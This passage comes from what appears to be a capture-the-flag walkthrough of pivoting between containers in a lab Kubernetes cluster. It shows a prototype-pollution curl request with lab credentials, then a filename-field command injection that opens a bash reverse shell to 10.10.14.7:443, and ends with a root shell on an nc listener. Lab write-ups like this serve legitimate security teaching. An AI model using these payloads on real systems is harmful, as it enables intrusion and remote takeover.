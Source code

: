     Nmap done: 1 IP address (1 host up) scanned in 8.44 seconds



Port 3000 is the default port for Node ExpressJS applications. It also
returns `[]` on `/` just like the Node app on the main host port 31337:



    root@webapp-deployment-5d764566f4-mbprj:/tmp# curl 172.17.0.3:3000
    []



#### Exploit

I'll see if this container is vulnerable to the same exploit I used to
get a foothold. First, add `canUpload`:



    root@webapp-deployment-5d764566f4-mbprj:/# curl -X PUT http://172.17.0.3:3000/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
    {"ok":true}



Now inject reverse shell:



    root@webapp-deployment-5d764566f4-mbprj:/# curl -X POST http://172.17.0.3:3000/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}'



At `nc`, there's a connection:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.235] 47198
    id
    uid=0(root) gid=0(root) groups=0(root)
    hostname
    devnode-deployment-cd86fb5c-6ms8d



And I'll upgrade my shell the same as before.

## Shell as root

### Enumeration

#### Inside Container

The namespace associated with this container is, unsurprisingly, dev:


